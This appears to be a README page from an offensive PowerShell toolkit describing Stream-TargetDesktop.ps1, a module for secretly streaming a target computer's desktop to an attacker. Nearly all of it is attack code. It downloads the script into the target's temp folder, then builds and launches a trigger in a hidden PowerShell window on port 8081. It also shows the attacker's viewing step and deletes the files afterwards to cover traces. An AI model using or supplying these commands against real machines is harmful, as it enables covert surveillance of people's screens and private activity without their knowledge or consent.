 ## Stream-TargetDesktop.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|[Stream-TargetDesktop](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1)|Stream target desktop live|User Land|Dependencies: firefox browser with MJPEG inatalled (attacker PC)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1" -OutFile "$Env:TMP\Stream-TargetDesktop.ps1"
```

<br />

**prerequesites:**
```powershell
#Make sure Firefox ( with MJPEG ) its installed on attacker machine
[bool](Get-ItemProperty -Path "HKLM:\SOFTWARE\Mozilla\Mozilla Firefox" -EA SilentlyContinue)
```

<br />

**execute:**
```powershell
#Build trigger script (remote)
echo "Import-Module -Name $Env:TMP\Stream-TargetDesktop.ps1 -Force"|Out-File -FilePath "$Env:TMP\trigger.ps1" -Encoding ascii -Force
Add-Content -Path "$Env:TMP\trigger.ps1" -Value "TargetScreen -Bind -Port 8081"


#Start capture desktop (remote)
Start-Process -WindowStyle hidden powershell -ArgumentList "-File $Env:TMP\trigger.ps1"

#Access live stream (attacker)
Start firefox on: "http://${RemoteHost}:8081"


#Stop stream (remote)
$StreamPid = Get-Content -Path "$Env:TMP\mypid.log" -EA SilentlyContinue|?{ $_ -ne '' }
Stop-Process -id $StreamPid -EA SilentlyContinue -Force

#CleanUp (remote)
Remove-Item -Path "$Env:TMP\trigger.ps1" -Force
Remove-Item -Path "$Env:TMP\mypid.log" -Force
```
